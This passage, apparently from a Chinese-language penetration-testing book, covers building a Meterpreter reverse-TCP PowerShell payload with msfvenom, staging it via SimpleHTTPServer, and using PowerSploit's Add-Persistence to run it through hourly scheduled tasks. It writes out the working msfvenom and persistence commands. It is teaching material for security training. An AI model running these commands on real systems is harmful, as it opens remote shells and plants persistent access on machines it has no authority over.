 +   **Add-Persistence**需要在前两个脚本中定义的配置。这些作为环境变量传递给**Add-Persistence**，由你选择。

明白了吗？让我们深入了解。首先，我们需要一个有效载荷。幸运的是，任何旧的 PowerShell 脚本都可以很好地工作。也许你有一个喜欢的脚本，来自我们之前回顾的 PowerShell。也许你自己写过一个。现在，我们将使用超级有用的**msfvenom**生成一个示例。它的格式选项之一就是 PowerShell！

# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.154.131 LPORT=8008 -f psh > attack.ps1

我最后得到了一个 2.5 KB 的有效载荷——还不错：

![图 17.15 – 准备我们的有效载荷并交付它](img/Figure_17.15_B17616.jpg)

图 17.15 – 准备我们的有效载荷并交付它

将那个脚本传输到你的*脚本构建器*系统上（我再次使用了**SimpleHTTPServer**；我真是太喜欢它了）。不要把它带到目标上；我们还没有我们的持久性脚本。记住，如果你只有一台 Windows 主机，那么你的脚本构建器和目标是同一台系统。

现在，我们运行这三个脚本——两个选项脚本，其输出存储为环境变量，然后是持久性脚本，它将选项传入并定义有效载荷脚本：

> $userop = New-UserPersistenceOption -ScheduledTask -Hourly
> 
> $suop = New-ElevatedPersistenceOption -ScheduledTask -Hourly
> 
> Add-Persistence -FilePath .\attack.ps1 -ElevatedPersistenceOption $suop -UserPersistenceOption $userop

查看持久性模块输出的脚本文件大小：

![图 17.16 – 有效载荷已打包并准备就绪](img/Figure_17.16_B17616.jpg)
